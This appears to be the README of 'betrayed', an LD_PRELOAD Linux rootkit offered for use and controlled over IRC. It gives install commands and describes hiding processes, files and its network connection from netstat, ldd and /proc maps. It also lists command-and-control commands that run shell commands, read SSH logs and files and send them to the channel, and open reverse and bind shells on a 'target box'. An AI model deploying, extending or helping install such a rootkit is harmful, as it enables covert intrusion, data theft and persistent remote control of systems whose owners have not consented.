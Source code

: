 
# betrayed
## basic info
 * betrayed is an LD_PRELOAD Linux rootkit which is controlled mainly from a IRC channel.  
 * it is free of any dependencies, and installs near enough instantly.  
 * processes & files are hidden with a magic GID
 * the connection to the IRC server is hidden from plain sight. `netstat` and similar tools won't show the connection.
 * upon installation, betrayed will create its initial fork process wherein it will connect to the server and join the specified channel.
   * by default, betrayed will only create its process & connect to the server if the calling process has root privs. you can turn this off by defining `DM_ROOT` in the config header.

### usage
 * SEE `src/config.h` FOR SPECIFIC SETTINGS YOU MAY WANT TO CHANGE.
 * ANY OF THE CONFIGURATION VARIABLES DECLARED AT RUNTIME BY `install.sh` CAN BE CHANGED.
   * see function `write_conf` in install.sh for variables that can be altered @ runtime.
   * for example, `NICK` & `SONAME`
     * _example:_ `NICK=mynewnick SONAME=mynewsoname.so ./install.sh`
 * `./install.sh <host> '<channel>'`
   * _i.e.:_ `./install.sh host.org '#imgay'`
 * upon successful installation, `install.sh` will `cat /dev/null` straight away
   * causing betrayed to create its main connection process
   * without this, the rootkit will join the channel off of the next adequate process
 * _compile only:_ `COMPILE_ONLY=1 ./install.sh ...` compiles the rootkit in the cwd. 
once installed on the target box & assuming you are in your target channel, you will see a new user with a random nick join your channel. this is the box that you just installed betrayed on.

#### available commands
```
 IRC commands:
      to use a command, send "<CMD NAME> <NICK/all> [argument(s)]"
        "!EXEC", // executes given commands & sends resulting output to the channel.
        "!SSHL", // read outgoing ssh logs, send said logs to the channel.
        "!READ", // send file contents to the channel.
        "!REVR", // send a reverse shell to a given hort & port.
        "!BIND", // create a bind shell on given port.
        "!KILL", // remove the rootkit and all of its files and disconnect.
        "!DISC", // just disconnect. we will then reconnect when possible.
        "!INFO", // just send `uname -a` output to the channel.
        "!HELP", // send this command list to the channel.
        "!ADDR"  // send the address of the box to the channel. uses curl.
```

#### notes
##### hiding
 * betrayed hides itself from /proc/\*/maps, smaps, and numa_maps.
 * betrayed hides itself from `ldd`, among others.

##### connection
 * using !EXEC/!INFO may cause a short wait before you can do anything else.